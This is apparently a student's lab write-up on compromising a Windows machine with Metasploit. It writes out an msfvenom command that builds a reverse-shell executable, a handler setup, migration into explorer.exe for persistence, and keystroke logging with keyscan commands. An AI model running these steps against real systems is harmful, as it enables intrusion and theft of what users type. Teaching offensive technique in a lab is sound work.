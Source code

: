 # EX06 Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands
```
NAME : DEEPIKA S
REGISTER N0 : 212222230028
```

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:
![1ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/65acd676-3f6b-43e2-ab3d-eab3ac71f52a)
Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![2ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/0d71f249-b350-4520-a675-10682f31bfa9)
copy the fun.exe into the apache /var/www/html folder
![3ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/40d67abf-a7a0-49d8-b07a-04602a413067)
Start apache server
sudo systemctl apache2 start
![4ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/1adafd50-4b0a-4eb5-b578-f1e1e395518b)
Check the status of apache2
![5ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/4b381f48-9984-4312-9925-dce70d581bc9)
Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![6ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/725191c5-ca87-46d4-bcc9-80f0306816ee)


set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![7ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/55a40491-a16c-480f-a1bf-8151083fbae5)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![7ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/5bcc5312-2942-4355-8ffd-e99b749e6639)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![8ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/586a7446-0fd9-41b7-b30c-59b64c5220d6)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![9ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/1632816d-0cbd-430b-aaf6-8c4baff3f4fb)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![9ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/fd98d79e-83e6-47be-a2cc-6356656cf3db)

keyscan_dump	Shows the keystrokes captured so far
![10ex](https://github.com/deepikasrinivasans/Compromising-windows-using-Metasploit/assets/119393935/03f16b99-9a26-4b6d-bd63-ab7d3ab02a70)

## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
